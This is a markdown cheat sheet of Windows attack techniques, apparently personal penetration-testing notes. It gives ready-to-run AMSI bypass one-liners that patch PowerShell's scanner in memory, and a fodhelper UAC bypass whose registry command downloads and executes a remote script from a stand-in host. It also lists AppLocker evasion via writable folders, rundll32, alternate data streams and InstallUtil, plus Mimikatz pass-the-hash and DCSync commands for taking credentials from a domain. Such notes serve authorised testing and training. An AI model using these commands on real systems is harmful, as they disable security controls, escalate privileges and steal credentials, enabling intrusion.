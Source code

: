 ## AMSI Bypasses
- You may need to split up the string in some way (ex. triggers on AmsiUtils or amsi):
  ```
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
  ```
- Simple one-liner to force a 0 in memory to fail the CMP instruction and get a 1 return value on Amsi checks (pass the scan). Might want to rip that up into a bunch of lines if possible:
  ```
  $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
  ```
- Patch the internals with powershell reflection. See OneNote tagged `AMSI Bypass`.

## UAC Bypasses
- As of now, the `fodhelper.exe` UAC bypass still worketh (likely the MSF module will be caught by EDR/AV though):
  ```
  PS C:\> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://cradle/evil.txt') | IEX" -Force
  PS C:\> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
  PS C:\> C:\Windows\System32\fodhelper.exe  
  ```
  - Note that the reg cmd value can be up to 16383 characters

## App Whitelisting Bypasses
- If default Applocker rules are applied, this means you can bypass by copying bins into `C:\Windows\Temp\` or `C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System\` and similar writable folders for to execute.
  - Check perms with `accesschk.exe`: `accesschk.exe "student" C:\Windows -wusd > C:\Users\student\chck.txt`
  - Loop through with `icacls.exe` to see which I can exec from: `for /F "tokens=2 delims= " %x in (C:\users\student\chck.txt) do icacls %x | findstr RX`
- You can also use native bins such as `rundll` to get code exec: `rundll32 myevil.dll,pwnFunction`
- Use an alternate data stream: `C:\path\to\writable\file.log:evil.js`
- Check if there's a 3rd party scripting engine such as python or if JRE for java is on there
- See if they have DLL restrictions. Get codexec with `rundll`: `C:\windows\system32\rundll.exe EvilDll.dll,maliciousFunc` (use `C:\Windows\SysWOW64\rundll.exe` for 64 bit payloads)
- Use `InstallUtil` with the uninstall capability (doesn't require admin privs, but install does)
  ```
  C:\> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\lowpriv\bypass.exe
  ```

## Mimikatz
You can wrap these in for ex. `PS> Invoke-Mimikatz -Command '"sekurlsa::pth /user:lemons /domain:dollarcorp.moneycorp.local /ntlm:NThashHERE /run:powershell.exe`
- Start new process as target user w/ NT hash:
  ```
  sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:powershell.exe
  ```
- Run a DCsync attack for a specific user:
  ```
  lsadump::dcsync /user:dcorp\krbtgt
  ```
